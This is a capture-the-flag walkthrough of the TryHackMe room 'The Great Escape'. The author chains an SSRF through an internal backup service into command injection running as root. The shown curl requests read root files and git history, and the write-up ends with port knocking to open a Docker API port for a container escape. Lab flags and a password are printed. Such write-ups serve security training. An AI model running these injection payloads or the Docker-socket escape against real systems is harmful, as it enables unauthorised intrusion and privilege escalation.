

# TryHackMe: The Great Escape

> Our devs have created an awesome new site. Can you break out of the sandbox?

*[Link](https://tryhackme.com/room/thegreatescape)*

## Recon

```
export IP=10.10.23.83
```

I first ran an NMAP scan and Nikto: see `nmap.log` and `nikto.log`. Running gobuster was not possible, because every page (also non-existent) ones seems to return 200 response codes. The contents of `robots.txt` however, is very interesting:

```
User-agent: *
Allow: /
Disallow: /api/
# Disallow: /exif-util
Disallow: /*.bak.txt$
```

This `/exif-util` seems to feature a file upload, and might refer to command line EXIF utilities, like exiftools. This is possible attack surface.

The login page' interaction with the API looks like this:



I tried basic brute-forcing on this, without any luck.

## First Flag

I was stuck for quite a while with my usual recon techniques all being based on non-200 response codes... there might also be some rate limiting going on? Then I tried some common files in `.well-known`. The `security.txt` contained the following:

```
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

I did this HEAD request as requested, using cURL:

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $curl --head http://10.10.23.83/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sun, 06 Aug 2023 14:06:10 GMT
Connection: keep-alive
flag: THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```

## Attacking `/exif-util`

Using browser devtools I extracted the API request happening for the EXIF utility:
```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $curl 'http://10.10.23.83/api/exif?url=http:%2F%2F10.10.23.83%2F_nuxt%2Fimg%2Flogo-light.49baa3d.png'
EXIF:
----------------------
[PNG-IHDR] Image Width - 600
[PNG-IHDR] Image Height - 300
[PNG-IHDR] Bits Per Sample - 8
[PNG-IHDR] Color Type - True Color with Alpha
[PNG-IHDR] Compression Type - Deflate
[PNG-IHDR] Filter Method - Adaptive
[PNG-IHDR] Interlace Method - No Interlace
[PNG-sRGB] sRGB Rendering Intent - Perceptual
[PNG-gAMA] Image Gamma - 0.455
[PNG-pHYs] Pixels Per Unit X - 3778
[PNG-pHYs] Pixels Per Unit Y - 3778
[PNG-pHYs] Unit Specifier - Metres
[File Type] Detected File Type Name - PNG
[File Type] Detected File Type Long Name - Portable Network Graphics
[File Type] Detected MIME Type - image/png
[File Type] Expected File Name Extension - png

XMP:
----------------------
```

I was not able to inject any commands at the end of the URL here, despite various attempts and even some automated fuzzing.

There's also a `exif-util.bak.txt` file available, as suggested by the robots file. I saved it in my notes directory. Notice it has a call to `http://api-dev-backup:8080/exif`, a different(?) internal service. I then tried if maybe this service was vulnerable to command injection.

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $curl 'http://10.10.23.83/api/exif?url=http://api-dev-backup:8080/exif?url=1;id'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               uid=0(root) gid=0(root) groups=0(root)
```

Woah! That's not just command injection... The app seems to be running as root. I started looking for a flag, but found this instead:

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $curl 'http://10.10.23.83/api/exif?url=http://api-dev-backup:8080/exif?url=1;cat%20/root/dev-note.txt'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               Hey guys,

Apparently leaving the flag and docker access on the server is a bad idea, or so the security guys tell me. I've deleted the stuff.

Anyways, the password is fluffybunnies123

Cheers,

Hydra
```

The password obviously seemed interesting, but I couldn't successfully log in with it anywhere. The SSH service seems to be [a tarpit](https://github.com/skeeto/endlessh).

We have to URL-encode a command payload so I wrote a utilty to do this in `exploit.py`. I wondered if the `dev-note` was refering to the Git history...

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $python3 exploit.py "cd /root; git log"
commit 5242825dfd6b96819f65d17a1c31a99fea4ffb6a
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $python3 exploit.py "cd /root; git show a3d30a7d0510dc6565ff9316e3fb84434916dee8:dev-note.txt"
Hey guys,

I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.

Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.

Cheers,

Hydra
```

## Root flag

```
┌─[parrot@parrot]─[~/Desktop/the-great-escape]
└──╼ $python3 exploit.py "cd /root; git show a3d30a7d0510dc6565ff9316e3fb84434916dee8:flag.txt"
You found the root flag, or did you?

THM{0cb4b947043cb5c0486a454b75a10876}
```

## Knocking the docker TCP port open

As described in the (old) `dev-note.txt`, I tried to get the ports open by "knocking" these ports. I did this using the script in `knock.sh`. A new NMAP scan (`nmap-after-knock.log`) indeed revealed an open Docker port now: port 2375.


## The Great Escape

It seems like I have been tricked:

> You thought you had root. But the root on a docker container isn't all that helpful. Find the secret flag

However, now that we have an open Docker port, I can run a new Docker container and mount the real file system. I was able to read the flag this way:


